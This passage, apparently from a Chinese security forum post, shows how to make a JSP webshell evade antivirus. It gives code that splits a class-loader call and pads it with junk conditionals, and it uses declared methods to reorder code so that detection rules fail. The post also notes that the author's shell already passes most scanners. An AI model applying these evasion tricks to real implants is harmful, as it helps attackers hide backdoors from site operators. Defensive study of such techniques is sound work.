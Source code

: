 也能够正常连接

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-f8e779c1e09ce0b8f65c4ef010983ca140606f4b.png)

其实上面的马以及能过掉大部分常见的杀毒软件了，下面是virscan的检测结果截图。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-eecd8e15cb7fa7821672ea8cebf1596b4132caf7.png)

方法也很简单，就是将代码拆分一下，然后添加各种无意义代码即可  
举例：

```jsp

// 假设这段代码能够被杀软规则匹配到
new U(this.getClass().getClassLoader());

// 那么就可以拆分成 
Classloader cl;
cl = this.getClass().getClassLoader();
U u;
u = new U(cl);

// 然后添加一些无意义代码
Classloader cl;
if (123141 != 0){
    // 这个条件必定会触发
    cl = this.getClass().getClassLoader();
}

if (12412 &lt; 0){
    // 这个条件必定不会被触发 所以可以随便写一些代码
    cl = null;
    float f = 1243124.11f;
}

U u;
if (111111 == 0){
}else{
    u = new U(cl);
}

```

3.定义函数修改代码的顺序
-------------

修改的代码顺序主要是用来过一些较强的杀软，比如卡巴斯基这种。简单来说就是在不改变代码功能的情况下打乱代码的顺序使得检测规则无法匹配成功。  
还是举个例子：

```jsp
// 比如下面的代码能够被杀软的规则匹配到 
new U(this.getClass().getClassLoader());

// 可以通过定义函数的方式修改代码的顺序
&lt;%
    new U(getClassLoader);
%&gt;
&lt;%!
    public ClassLoader getClassLoader(){
        return this.getClass().getClassLoader();
    }
%&gt;
```
